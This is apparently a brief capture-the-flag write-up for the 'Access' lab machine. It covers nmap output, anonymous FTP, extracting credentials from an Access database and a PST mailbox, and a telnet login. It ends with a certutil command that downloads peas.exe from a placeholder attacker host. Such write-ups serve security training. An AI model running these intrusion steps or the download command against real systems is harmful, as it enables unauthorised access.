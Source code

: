 # Access

## NMAP

```console
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
23/tcp open  telnet  syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127
```

```console
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Web

![Web](./images/Accessed-Web.png)

## FTP

* use ```bin``` to transfer data in binary rather than ASCII (typical windows things)

![Web](./images/Access-ftp.png)

## mdb

```bash
 sudo apt-get install mdbtools   
```

```bash
mdb-tables backup.mdb
mdb-export auth_users
```

## 7zip

* 7z x "Access Control.zip" -p"password"

## PST

```bash
sudo apt install pst-utils
readpst "Access Control.pst"
cat "Access Control.mbox"
```

## Telnet 23 User Own

```bash
telnet $IP 23
cat Desktop/user.txt
```

## Certutil

```Powershell
certutil -urlcache -split -f http://attack-ip peas.exe
```
